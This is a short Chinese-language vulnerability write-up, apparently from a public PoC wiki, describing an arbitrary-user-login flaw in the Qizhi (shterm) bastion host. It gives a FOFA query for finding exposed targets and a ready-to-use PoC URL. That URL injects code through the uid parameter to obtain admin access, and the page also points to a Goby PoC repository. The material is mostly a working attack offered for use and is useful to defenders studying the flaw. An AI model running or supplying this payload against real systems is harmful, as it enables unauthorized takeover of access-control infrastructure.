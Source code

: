 # 齐治堡垒机 任意用户登录漏洞

## 漏洞描述

齐治堡垒机 存在任意用户登录漏洞，访问特定的Url即可获得后台权限

## 漏洞影响

> [!NOTE]
>
> 齐治堡垒机

## FOFA

> [!NOTE]
>
> app="齐治科技-堡垒机"

## 漏洞复现

漏洞POC为

```
http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

![](image/qz-1.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> shterm(QiZhi) Fortress Arbitrary User Login

![](image/qz-2.png)